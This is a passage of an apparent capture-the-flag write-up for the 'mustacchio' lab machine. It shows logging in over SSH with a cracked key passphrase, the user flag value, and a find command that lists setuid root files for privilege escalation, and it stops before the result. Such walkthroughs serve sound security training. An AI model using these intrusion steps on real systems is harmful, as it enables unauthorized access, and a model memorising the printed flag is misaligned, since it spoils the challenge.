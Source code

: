 > i get passphrase for private key: **urieljames**

> i connect via ssh and get first flag:

```bash

ssh -i private_key barry@10.10.124.65

Enter passphrase for key 'private_key':

Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$

barry@mustacchio:~$ cat user.txt

62d77a4d5f97d47c5aa38b3b2651b831

barry@mustacchio:~$

```
> user flag: ```62d77a4d5f97d47c5aa38b3b2651b831```

---

## Privilege Escalation:

> i am searching by **setuid files**:


```bash

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```

> Result:
